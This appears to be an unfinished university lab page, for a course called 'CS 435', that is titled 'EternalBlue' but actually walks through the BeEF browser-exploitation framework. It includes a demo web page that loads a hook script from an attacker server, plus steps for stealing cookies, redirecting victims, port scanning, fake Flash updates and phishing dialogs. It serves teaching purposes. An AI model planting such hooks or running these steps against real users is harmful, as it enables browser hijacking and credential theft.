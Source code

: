 <h5><em>ver: Aug-2022</em></h5>

---

<h2>EternalBlue on Kali Linux</h2>

<h4>Under construction </h4>

<!-- 
1. Install BeEF on Kali Linux (Not a default tool)
2. Setup BeEF configuration file (set id and password)
3. Open BeEF
4. Open a web browser and go to "http://localhost:3000/ui/authentication".
5. Enter the id and passwd to the browser

```sh
sudo apt install beef-xss
# set id/passwd. Default valeus does not work.
sudo nano /etc/beef-xss/./config.yaml
cd /usr/share/beef-xss
./beef

```

---

<h4>Exploitation Example</h4>

1. Identify attacker's ip-address

```sh
ifconfig
```

2. Identify victiom's ip-address

```sh
ipconfig
ping attack-ip-address
```

3. Create a compromised web page by hooking the BeEF script

```html
<html lang="en">
    <head>
        <title>CS 435 Demo Page (BeEF)</title>
    </head>
    <body>
        <script src="http://attacker-server-ip-address:3000/hook.js"></script>
        <h2>This is CS 435 Demo Page</h2>
        <h4>School of Arts and Sciences</h4>
        <h4>Carolina University</h4>
        <h3>THIS IS A MALICIOUS WEB-PAGE</h3>
        <a href="http://cnn.com"> LINK to "cnn.com" </a>
    </body>
</html>
```

4. A victim's web-browser access to the compromised web-server. (Attacker's server)

5. Verify hook-ups on BeEF
   4-1. Current Browser -> Details
   4-2. Current Browser -> Network

6. Control the victim's web-browser.

    5-1. Current Browser -> Command -> Browser -> Get Cookie -> check Command results
    5-2. Current Browser -> Command -> Browser -> Redirect Browser (iFrame) -> set New Favicon & Redirect URL (Monitor the url window)
    5-3. Current Browser -> Command -> Network -> Port Scanner -> set ip-address for scanning
    5-4. Current Browser -> Command -> Social Engineering -> Fake Flash Update -> set Image & Custom Payload URL
    5-5. Current Browser -> Command -> Social Engineering -> Google Phishing -> set XSS hook URI -> check Command results
    5-6. Current Browser -> Command -> Social Engineering -> Pretty Theft -> set Dialog Type & Custom Logo -> check Command results -->
